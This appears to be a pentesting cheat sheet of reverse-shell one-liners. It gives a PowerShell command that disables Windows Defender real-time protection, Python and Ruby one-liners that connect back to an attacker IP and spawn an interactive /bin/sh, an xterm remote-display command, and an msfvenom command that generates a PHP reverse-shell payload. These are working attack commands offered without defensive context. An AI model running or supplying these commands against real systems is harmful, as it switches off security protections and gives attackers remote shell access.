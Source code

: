 Disable AV
```powershell-session
 Set-MpPreference -DisableRealtimeMonitoring $true
```


## python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ipAttacker",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$ipAttacker',$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"

```

## ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("$ipAttacker",$port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## xterm

```bash
xterm -display 10.0.0.1:1
```


## msfvenom

[See msfvenom](msfvenom.md)


```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

